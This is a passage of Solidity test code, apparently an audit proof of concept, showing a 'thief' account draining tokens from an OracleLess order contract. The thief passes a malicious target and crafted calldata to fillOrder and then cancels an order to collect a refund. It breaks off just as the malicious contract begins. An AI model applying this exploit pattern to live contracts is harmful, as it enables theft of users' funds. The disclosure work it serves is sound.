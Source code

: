 ```solidity

        //for math stuff
        uint256 balanceOfOraclelessContract = tokenIn.balanceOf(address(oracleless));

        //2. thief creates an order with a different token as tokenIn and the above users' token as tokenOut
        address thief = makeAddr("thief");
        vm.startPrank(thief);
        //tokens for first order
        TestERC20(address(tokenOut)).mint(10e18);
        tokenOut.approve(address(oracleless), 10e18);

        //tokens for second order created through malicious contract
        TestERC20(address(tokenIn)).mint(balanceOfOraclelessContract);
        tokenIn.approve(address(oracleless), balanceOfOraclelessContract);

        uint256 thiefStartingBalanceTokenIn = tokenIn.balanceOf(thief);
        uint256 thiefStartingBalanceTokenOut = tokenOut.balanceOf(thief);

        //create first order with a little less than contract balance as `minAmountOut`
        uint96 orderId = oracleless.createOrder(tokenOut, tokenIn, 1e18, balanceOfOraclelessContract - 1, thief, 0, false, "");

        //thief gets their pendingOrderIdx
        IOracleLess.Order[] memory ordersArray = oracleless.getPendingOrders();
        require(ordersArray.length < type(uint96).max);
        uint96 pendingOrderIdx = uint96(ordersArray.length - 1);
        
        //3. thief calls fillOrder for first order with malicious target and function data passed into txData, then cancels their second order afterwards to collect refund
        Malicious target = new Malicious(address(oracleless), address(tokenIn), address(tokenOut), 1e18, balanceOfOraclelessContract);
        bytes memory txData = abi.encodeWithSelector(Malicious.attack.selector);

        //Execute
        oracleless.fillOrder(pendingOrderIdx, orderId, address(target), txData);
        oracleless.cancelOrder(target.orderId());

        uint256 thiefFinalBalanceTokenIn = tokenIn.balanceOf(thief);
        uint256 thiefFinalBalanceTokenOut = tokenOut.balanceOf(thief);

        uint256 oraclelessFinalBalanceTokenIn = tokenIn.balanceOf(address(oracleless));
        uint256 oraclelessFinalBalanceTokenOut = tokenOut.balanceOf(address(oracleless));

        console2.log("Oracleless starting tokenIn balance", oraclelessStartingBalanceTokenIn);
        console2.log("Oracleless final tokenIn balance", oraclelessFinalBalanceTokenIn);
        console2.log("Oracleless starting tokenOut balance", oraclelessStartingBalanceTokenOut);
        console2.log("Oracleless final tokenOut balance", oraclelessFinalBalanceTokenOut);
        console2.log("Thief starting tokenIn balance", thiefStartingBalanceTokenIn);
        console2.log("Thief final tokenIn balance", thiefFinalBalanceTokenIn);
        console2.log("Thief starting tokenOut balance", thiefStartingBalanceTokenOut);
        console2.log("Thief final tokenOut balance", thiefFinalBalanceTokenOut);
        vm.stopPrank();

        assertLt(oraclelessFinalBalanceTokenIn, oraclelessStartingBalanceTokenIn);
        assertEq(oraclelessStartingBalanceTokenOut, oraclelessFinalBalanceTokenOut);
        assertGt(thiefFinalBalanceTokenIn, thiefStartingBalanceTokenIn);
        assertEq(thiefStartingBalanceTokenOut, thiefFinalBalanceTokenOut);
    }
}

// malicious contract
contract Malicious {
 ```